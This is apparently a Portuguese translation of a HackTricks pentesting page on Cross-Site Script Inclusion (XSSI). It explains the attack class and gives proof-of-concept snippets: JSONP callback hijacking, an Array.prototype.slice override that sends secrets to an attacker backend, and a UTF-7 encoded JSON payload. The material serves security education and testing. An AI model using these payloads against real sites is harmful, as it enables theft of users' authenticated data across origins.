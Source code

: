 # XSSI (Cross-Site Script Inclusion)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## Basic Information

**Cross-Site Script Inclusion (XSSI)** é uma vulnerabilidade que surge da natureza da tag `script` em HTML. Ao contrário da maioria dos recursos, que estão sujeitos à **Same-Origin Policy (SOP)**, scripts podem ser incluídos de diferentes domínios. Esse comportamento é destinado a facilitar o uso de bibliotecas e outros recursos hospedados em servidores diferentes, mas também introduz um risco potencial de segurança.

### Key Characteristics of **XSSI**:
- **Bypass of SOP**: Scripts estão isentos da **Same-Origin Policy**, permitindo que sejam incluídos entre domínios.
- **Data Exposure**: Um atacante pode explorar esse comportamento para ler dados carregados via a tag `script`.
- **Impact on Dynamic JavaScript/JSONP**: **XSSI** é particularmente relevante para JavaScript dinâmico ou **JSON with Padding (JSONP)**. Essas tecnologias frequentemente usam informações de "ambient-authority" (como cookies) para autenticação. Quando uma solicitação de script é feita para um host diferente, essas credenciais (por exemplo, cookies) são automaticamente incluídas na solicitação.
- **Authentication Token Leakage**: Se um atacante conseguir enganar o navegador de um usuário para solicitar um script de um servidor que ele controla, pode ser capaz de acessar informações sensíveis contidas nessas solicitações.

### Types

1. **Static JavaScript** - Esta representa a forma convencional de XSSI.
2. **Static JavaScript with Authentication** - Este tipo é distinto porque requer autenticação para acesso.
3. **Dynamic JavaScript** - Envolve JavaScript que gera conteúdo dinamicamente.
4. **Non-JavaScript** - Refere-se a vulnerabilidades que não envolvem JavaScript diretamente.

**The following information is a sumary of [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Check it for further details.


### Regular XSSI
Nesta abordagem, informações privadas são incorporadas dentro de um arquivo JavaScript acessível globalmente. Os atacantes podem identificar esses arquivos usando métodos como leitura de arquivos, buscas por palavras-chave ou expressões regulares. Uma vez localizados, o script contendo informações privadas pode ser incluído em conteúdo malicioso, permitindo acesso não autorizado a dados sensíveis. Uma técnica de exploração de exemplo é mostrada abaixo:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dynamic-JavaScript-based-XSSI e Authenticated-JavaScript-XSSI
Esses tipos de ataques XSSI envolvem informações confidenciais sendo adicionadas dinamicamente ao script em resposta a uma solicitação do usuário. A detecção pode ser realizada enviando solicitações com e sem cookies e comparando as respostas. Se as informações diferirem, isso pode indicar a presença de informações confidenciais. Esse processo pode ser automatizado usando ferramentas como a extensão Burp [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS).

Se dados confidenciais forem armazenados em uma variável global, eles podem ser explorados usando métodos semelhantes aos utilizados no XSSI Regular. No entanto, se os dados confidenciais estiverem incluídos em uma resposta JSONP, os atacantes podem sequestrar a função de callback para recuperar as informações. Isso pode ser feito manipulando objetos globais ou configurando uma função para ser executada pela resposta JSONP, conforme demonstrado abaixo:
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Para variáveis que não residem no namespace global, *prototype tampering* pode às vezes ser explorado. Esta técnica aproveita o design do JavaScript, onde a interpretação do código envolve percorrer a cadeia de protótipos para localizar a propriedade chamada. Ao sobrescrever certas funções, como o `slice` de `Array`, os atacantes podem acessar e vazar variáveis não globais:
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
Mais detalhes sobre vetores de ataque podem ser encontrados no trabalho do Pesquisador de Segurança [Sebastian Lekies](https://twitter.com/slekies), que mantém uma lista de [vetores](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI
A pesquisa de Takeshi Terada introduz outra forma de XSSI, onde arquivos Non-Script, como CSV, são vazados cross-origin ao serem incluídos como fontes em uma tag `script`. Instâncias históricas de XSSI, como o ataque de Jeremiah Grossman em 2006 para ler uma lista de contatos completa do Google e o vazamento de dados JSON de Joe Walker em 2007, destacam a gravidade dessas ameaças. Além disso, Gareth Heyes descreve uma variante de ataque envolvendo JSON codificado em UTF-7 para escapar do formato JSON e executar scripts, eficaz em certos navegadores:
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporte o HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
